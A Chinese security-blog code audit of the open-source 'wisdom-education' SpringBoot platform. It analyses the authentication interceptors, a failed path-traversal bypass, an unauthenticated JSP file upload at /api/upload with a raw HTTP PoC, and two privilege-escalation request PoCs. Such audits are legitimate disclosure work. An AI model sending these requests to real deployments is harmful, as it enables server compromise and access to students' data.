# 智慧云智能教育平台代码审计：鉴权机制与安全漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/18928  
> **文章ID**: 18928

---

# 项目介绍

基于 **SpringBoot** 构建的**智慧云智能教育平台**。它是一个功能完备的在线教育解决方案，涵盖了学生端、管理后台以及小程序/App端

该系统旨在提供一个集在线学习、考试、管理于一体的智能教育平台。其核心特点是采用了现代化的技术栈和前后端分离的架构，并特别注重了对复杂题型（如数学公式、综合题）的支持和高并发场景的处理。

**fofa：**



项目地址：<https://gitee.com/zhuimengshaonian/wisdom-education>

**管理后台：**



**学生端：**


小程序wx：



# 代码审计

## 鉴权分析

项目采用spring拦截器鉴权，在src/main/java/com/education/api/config/interceptor目录下





一共注册了6个拦截器

```
logInterceptor	//拦截所有
formLimitInterceptor	//拦截所有
paramsValidateInterceptor	//拦截所有
authInterceptor  //放行noInterceptorUrl，拦截/api/**和/system/**
studentAuthInterceptor  //放行/student/login，拦截/student/**
PermissionInterceptor  //拦截所有
```

逐个分析

### logInterceptor



一个记录HTTP请求的详细信息

### FormLimitInterceptor



获取请求信息：提取请求URL和客户端IP地址，判断请求的控制器方法是否带有@FormLimit注解，使用Redis对同一IP+URL的请求进行限流，timeOut秒内只能请求一次

### paramsValidateInterceptor



判断目标方法是否有@ParamsValidate注解，有的话获取注解中定义的参数规则和参数类型

调用checkParam方法对请求中的参数进行校验



校验请求参数，支持表单和JSON数据类型。首先根据paramsType判断数据来源，解析出参数值；然后遍历每个Param注解配置，检查参数是否为空，以及是否符合正则表达式规则。若校验失败，则通过response返回错误信息并终止流程。

### AdminAuthInterceptor

管理员后台的鉴权接口



28行调用checkHeader检查是否携带请求头，调用RequestUtils.getRequestUrl获取请求url，如果是`/api/dict` || `/api/upload` || `/uploads`则放行，39行调用AuthUtil.getSession(LoginEnum.ADMIN.getValue());获取登入用户信息，如果存在返回，不存在提示会话已过期,请重新登录

那么对于这个拦截器我们要关注的点有两个

1. **白名单接口能否绕过**
2. **身份凭据能否伪造**

拦截器中白名单是判断使用的是`startsWith`方法，只是判断是否为指定前缀开头，这里可以尝试`/uploads/../system/info`，能否成功要关注`targetUrl`获取和spring boot版本是否可以../

`targetUrl`是通过自定义的`RequestUtils.getRequestUrl`，跟进方法实现



获取程序上下文，然后通过request.getRequestURI()获取请求url，调用substring去除上下文，提取请求接口，这里没有对接口进行路径规范化，那么主要关注spring boot版本访问../是否解析了



可惜的是版本是2.5.0，没法进行../解析，那么只能关注凭据能否伪造，跟进`AuthUtil.getSession(`



调用getTokenValue方法获取token，跟进方法





从请求包中的Authorization获取token，然后判断token是否存在

调用getTokenFactory().isExpiration验证token是否已过期，跟进方法实现



调用getTokenInfo方法解析传入的token



这里是直接从内存Map中获取是否存在，存在并且未超时就返回false

最后从会话存储中获取对应的用户会话，那么这里伪造就有个前提，内存Map中得有想要伪造的用户token，不然伪造不了，回到AdminAuthInterceptor，最后

```
return checkToken(LoginEnum.ADMIN.getValue(), response);
```

跟进实现



也是调用AuthUtil.getSession获取用户信息，多了个调用refreshSessionIfNeed方法判断token失效时间，小于2分钟进行更新

### studentAuthInterceptor



代码基本和管理后台鉴权一样，多了个对于OPTIONS请求方式的放行策略

### PermissionInterceptor



检查是否为HandlerMethod，非Controller方法直接放行，获取Controller方法调用PermissionStrategy.checkMethodAnnotation.accept进行权限注解检查



判断controller上是否存在RequiresPermissions.class注解，不存在注解返回，存在进入后续权限判断，获取permission的value和logical



根据logical的值进入不同分支



先是and逻辑，调用checkPermissionAnd，只要有一个权限不满足就跳出循环，checkPermissionOr则是只要有一个权限满足就跳出循环



通过getSession获取用户模型，调用getPermissionList获取权限列表，判断传入的permission是否在权限列表中，getSession实现前面也分析过了通过token进行判断

那么目前全部分析下来，系统没法鉴权绕过，未授权情况下，只能关注拦截器中配置的白名单接口，有账号就正常测了

## 前台任意文件上传

关键词：upload || MultipartFile



定位到UploadController.java中的uploadFile方法

62行通过getOriginalFilename获取我们上传的原始文件名，63调用FilenameUtils.getExtension获取文件后缀，69行直接把获取到的文件后缀拼接生成新的文件，过程中没有校验后缀，73行获取文件内容，75行调用fileUpload.putObject处理文件上传



使用FileUtil.writeFromStream把文件上传内容写入拼接的新文件中，存在任意文件上传



对应请求接口是/api/upload/{1-4}，因为文件上传路径是根据传入数字获取的



并且这个是AdminAuthInterceptor的白名单放行接口，前台可触发，构造POC

```
POST /api/upload/2 HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKfAHSQTSwCjo25Kz
Content-Length: 2890

------WebKitFormBoundaryKfAHSQTSwCjo25Kz
Content-Disposition: form-data; name="file"; filename="16a985dfee9b093d76a0ffc4cf4c77ba20c2eb0d.jsp"
Content-Type: image/jpeg

123123
------WebKitFormBoundaryKfAHSQTSwCjo25Kz--
```

## 多处水平越权

简单演示两处

### 第一处

ExamInfoController.java中的selectExamInfoList



调用examInfoService.selectStudentExamInfoList



底层查询主要通过studentExamInfoDto.studentId，studentId是通过StudentExamInfoDto模型传参



构建poc

```
GET /student/exam?pageNumber=1&pageSize=9&subjectId=遍历点 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Platform: educationStudent
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Authorization: [登入后的token]
```



### 第二处

WrongBookController.java中的list方法



调用studentWrongBookService.selectPageList方法，跟进底层实现



底层查询主要通过wrongBookQuery.subjectId，subjectId通过wrongBookQuery模型传递



构建poc

```
GET /student/wrongBook?pageNumber=1&pageSize=5&questionType=&subjectId=遍历点 HTTP/1.1
Host: 
Platform: educationStudent
Accept: application/json, text/plain, */*
Authorization: [登入后的token]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```


